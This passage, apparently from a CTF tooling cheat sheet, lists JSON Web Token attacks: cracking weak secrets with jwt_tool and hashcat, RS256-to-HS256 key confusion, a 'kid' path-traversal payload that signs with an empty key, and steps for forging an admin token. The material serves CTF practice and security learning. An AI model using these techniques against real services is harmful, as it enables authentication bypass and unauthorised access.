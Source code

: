 2. **Weak Secret Bruteforce**:
```bash
# jwt_tool
jwt_tool <TOKEN> -C -d /usr/share/wordlists/rockyou.txt

# hashcat
hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
```

3. **Key Confusion (RS256 → HS256)**:
```python
# If server uses RSA public key as HS256 secret
# Use public key to sign token with HS256

# jwt_tool
jwt_tool <TOKEN> -X k -pk public.pem
```

4. **Kid (Key ID) Injection**:
```json
{
  "alg": "HS256",
  "kid": "../../../../dev/null"
}
# Signs with empty key
```

**Tools**:
```bash
# jwt_tool (Swiss Army Knife)
jwt_tool <TOKEN>
jwt_tool <TOKEN> -T  # Tamper payload
jwt_tool <TOKEN> -X a  # All attacks

# Online
https://jwt.io/
```

**Use Case Example**:
```
Challenge: Authenticated API using JWT
Token: eyJhbGci...

Steps:
1. Decode JWT: jwt_tool <token>
2. Check algorithm: if HS256, try bruteforce
3. Try none attack: jwt_tool <token> -X n
4. Tamper payload (user → admin): jwt_tool <token> -T
5. Use modified token to access admin endpoint
```

**Reference**: `~/ctf-tools/PayloadsAllTheThings/JSON Web Token/`

---

## 2. Digital Forensics
